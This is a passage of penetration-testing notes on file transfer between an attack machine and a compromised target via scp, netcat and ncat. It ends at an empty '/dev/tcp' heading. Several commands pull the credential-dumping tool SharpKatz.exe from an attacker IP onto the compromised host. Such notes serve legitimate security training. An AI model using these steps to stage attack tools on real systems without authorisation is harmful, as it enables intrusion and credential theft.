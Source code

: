 ## SSH (creds needed)

### From attack machine to Target (local to remote)

- `sudo systemctl start ssh` start ssh service
- `netstat -lnpt` check ssh for listening port
- In your kali or any linux `scp FILE-TO-SEND user@ip:/path/to/folder`

> Note: You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

### From target to attack (remote to local)

- In your kali or any linux cmd `scp user@ip:/path/to/folder FILE-TO-GET`

### Note

- If you get this error `protocol error: filename does not match request`
- You will need to add `-T` in your command. Here is an example:
- `scp -T user@server:C:\\Path\\To\\file.txt dest-folder`

## Netcat

### From Target to attack machine

#### Target machine

- `nc -lvp PORT-NUMBER > FILE-TO-SEND`
- `nc -l -p 8000 > SharpKatz.exe` works too
- `ncat -l -p 8000 --recv-only > SharpKatz.exe` with ncat

#### Attacking machine

- `nc VICTIM-IP PORT-NUMBER -w 3 < FILE` note: -w is for the time out in seconds
- `nc -q 0 192.168.49.128 8000 < SharpKatz.exe` -q 0 will tell nc to close the connection once it finishes
- `ncat --send-only 192.168.49.128 8000 < SharpKatz.exe` 

### Attack to target

- `sudo nc -l -p 443 -q 0 < SharpKatz.exe` Attack Host - Sending File as Input to Netcat
- `sudo ncat -l -p 443 --send-only < SharpKatz.exe` same with ncat
- `nc 192.168.49.128 443 > SharpKatz.exe` Compromised Machine Connect to Netcat to Receive the File
- `ncat 192.168.49.128 443 --recv-only > SharpKatz.exe` same with netcat

> If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html). Writing to this particular file makes Bash open a TCP connection to host:port, and this feature may be used for file transfers.

### with /dev/tcp
